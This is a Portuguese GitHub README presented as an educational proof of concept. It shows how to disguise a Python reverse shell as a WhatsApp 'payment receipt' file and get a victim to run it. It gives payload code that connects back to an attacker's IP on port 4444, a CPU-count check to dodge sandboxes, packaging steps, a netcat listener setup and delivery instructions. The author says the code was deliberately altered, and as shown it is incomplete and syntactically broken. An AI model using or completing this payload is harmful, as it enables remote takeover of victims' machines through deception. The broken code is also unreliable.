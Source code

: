 # PoC: Reverse Shell via Simulação de Ataque no WhatsApp

> _Projeto educacional que demonstra os riscos da engenharia social, simulando como um simples arquivo no WhatsApp pode resultar em um reverse shell._

---

## ⚠️ Aviso Ético e Legal

> Este projeto foi desenvolvido para fins **estritamente educacionais** e de estudo em cibersegurança. O objetivo é entender como um vetor de ataque funciona para, assim, criar defesas mais eficazes.
>
> **Não utilize este código em sistemas ou redes nos quais você não tenha permissão explícita.** O uso indevido de ferramentas de segurança para atacar sistemas sem consentimento é ilegal e antiético. O autor não se responsabiliza pelo mau uso das informações aqui contidas.

## 📝 Sobre o Projeto

Este repositório contém o código e a documentação de uma Prova de Conceito (PoC) que simula um ataque de engenharia social. O cenário envolve um atacante que envia um "comprovante de pagamento" malicioso (um script Python empacotado) para uma vítima através de um mensageiro como o WhatsApp. Ao ser executado, o arquivo estabelece uma conexão reversa (reverse shell), dando ao atacante acesso ao terminal da máquina da vítima.

## 🛠️ Tecnologias Utilizadas

* **Linguagem:** `Python 3`
* **Listener:** `Netcat`
* **Empacotamento:** Módulo `zipapp` do Python
* **Ambiente do Atacante:** Kali Linux (ou outra distro Linux)
* **Ambiente do Alvo:** Windows 10/11
* **Virtualização:** VirtualBox 

### Pré-requisitos

* Duas máquinas (físicas ou virtuais): uma para o atacante (Kali) e uma para o alvo (Windows).
* Ambas as máquinas precisam estar na mesma rede e visíveis uma para a outra.
* A máquina alvo (Windows) precisa ter o **Python 3 instalado** para que possa interpretar e executar o arquivo `.pyz`.


### Passo 1: Configurar o Payload

Abra o arquivo de script (`NOMEDOARQUIVO.py`) e altere a variável `HOST` para o endereço IP da sua máquina atacante.

```python
import os
import socket
import subprocess
import time

if os.cpu_count() <= 2:
    quit()

# O script não funcionará sem que um IP válido seja inserido manualmente.
HOST = 'IP'
PORT = 4444

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    s.sendall(b"[*] Connection Established!\\n")
except Exception:
    quit()

while True:
    try:
        s.sendall(os.getcwd().encode() + b"> ")
        data = s.recv(2048).decode("UTF-8", errors="ignore").strip()
        if not data or data.lower() in ["quit", "exit"]:
            break
        if data.lower().startswith("cd "):
            try:
                os.chdir(data[3:].strip()) 
                s.sendall(b"\\n")
            except FileNotFoundError:
                s.sendall(f"Directory not found: {data[3:].strip()}\\n".encode())
            continue
s.close()
```

> Nota de Segurança: Este código foi intencionalmente modificado para prevenir o uso indevido. O projeto destina-se apenas a fins educacionais e de estudo.

### Passo 2: Configurar o arquivo

No terminal do Kali, navegue até a pasta do projeto e execute:

```bash
python3 -m zipapp Comprovante.py -o Comprovante.pyz
```

<img width="1274" height="225" alt="Captura de tela 2025-10-07 104605" src="https://github.com/user-attachments/assets/ecbfc5c0-9903-4bf2-99b4-6f6d3e9cedeb" />

### Passo 3: Iniciar o Listener

Na máquina atacante, inicie o **`netcat`** para escutar na porta configurada:

<img width="286" height="81" alt="Captura de tela 2025-10-07 105129" src="https://github.com/user-attachments/assets/3f74e1d1-4b55-4c55-a38b-747646398fb8" />

### Passo 4: Entregar e Executar o Payload

Envie o arquivo **`Comprovante.pyz`** para a máquina alvo e execute-o. Uma conexão reversa será estabelecida com o seu listener.


### PoC - Prova de Conceito - VIDEO EXPLICATIVO ###

https://github.com/user-attachments/assets/25740744-582e-4ac1-9a67-efee4bfec39a


### Ataque Concluido 


* A busca por respostas pode custar mais do que imagina. Proteja-se.


